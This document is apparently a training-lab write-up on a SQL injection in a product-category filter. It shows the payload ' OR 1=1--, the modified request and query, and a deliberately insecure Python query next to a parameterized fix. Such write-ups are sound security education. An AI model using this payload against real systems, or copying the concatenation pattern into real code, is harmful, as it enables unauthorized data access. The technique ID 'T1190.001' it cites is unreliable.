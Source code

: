 # SQL Injection - WHERE clause vulnerability

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: WHERE Clause Bypass (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Intercepting the Request**

```http
GET /filter?category=Corporate+gifts HTTP/2
```

**Step 2: Testing SQL Injection**

```sql
' OR 1=1--
```

Selecting injected SQL and pressing "⌘U" in Burp Suite URL-encodes the selected portion of request.

**The GET request becomes:**
```http
GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2
```

**Step 3: Understanding the Injection**

`' OR 1=1--` closes the string with `'` and creates a condition that always returns true, bypassing the `released = 1` clause. The `--` comments out the rest of the SQL query.

**The SQL query becomes:**
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1--' AND released = 1
```

This query returns all products, including those that are unreleased.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | Medium – Unreleased products exposed |
| Data Integrity | Low – Read-only access |
| Information Disclosure | Medium – Internal product data revealed |

---

## Mitigation

**Parameterized Queries (Prepared Statements):** Parameterized queries treat user input as data and not as part of SQL code, which prevents injection. Never build SQL statements by directly concatenating user input. 

Insecure code (Python):
```py
user_input = request.args.get('category')  # assuming Flask
query = "SELECT * FROM products WHERE category = ' " + user_input + " ' AND released = 1"
cursor.execute(query)
```

Safe version using prepared statements (Python sqlite3):
```py
query = "SELECT * FROM products WHERE category = ? AND released = 1"
cursor.execute(query, (user_input,))
```

`?` is a parameter placeholder. It tells the database, "Expect a value here." The value is safely passed as a separate argument to `cursor.execute()`. This prevents it from being executed as SQL. Some DBs like MySQL or Oracle use `%s` or `$1` instead. Check [notes](#notes) for more info.

---

## Reflection

This lab demonstrated how SQL injection can bypass filtering logic by injecting always-true conditions. The `OR 1=1` technique proved highly effective in bypassing the `released = 1` clause. Learned the importance of using prepared statements and proper input validation to prevent such attacks.

---

## Notes

The sequence `' --` can also be used to close the string and comment out the rest of the query, bypassing the released = 1 clause.

Different databases use different placeholder formats:

| Database | Placeholder syntax |
|----------|--------------------|
| SQLite | ? |
| Oracle | :1, :name |
| PostgreSQL/MySQL (with psycopg2 / MySQLdb) | %s |
| SQL Server | @name |